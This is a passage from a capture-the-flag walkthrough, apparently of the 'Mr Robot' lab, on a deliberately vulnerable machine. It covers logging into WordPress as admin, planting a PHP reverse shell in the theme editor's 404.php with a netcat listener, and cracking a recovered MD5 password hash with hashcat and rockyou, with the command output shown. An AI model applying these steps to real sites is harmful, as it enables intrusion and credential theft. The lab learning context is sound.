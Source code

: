 (I didnt try this one)

So In conclusion the creds are: 

`Elliot:[REDACTED]`

Login with those And get to the admin dashboard!
## <u>Exploitation</u>

Now getting access is classic stuff

In appearance editor just edit or add a page with a `php reverse shell` 

(404.php by example)

And get access on your netcat listener

```
$ cd /home/robot
$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied

```
yeah its a medium room...what did we expect?

`password.raw-md5` looks promising

```
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Its an easy-to crack hash so use john or hashcat...I prefer the second one for hashes

```
└──╼ $hashcat -m 0 'c3fcd3d76192e4007dfb496cca67e13b' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:[REDACTED]
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Wed Jan 19 18:20:26 2022 (2 secs)
Time.Estimated...: Wed Jan 19 18:20:28 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    89644 H/s (0.52ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1
```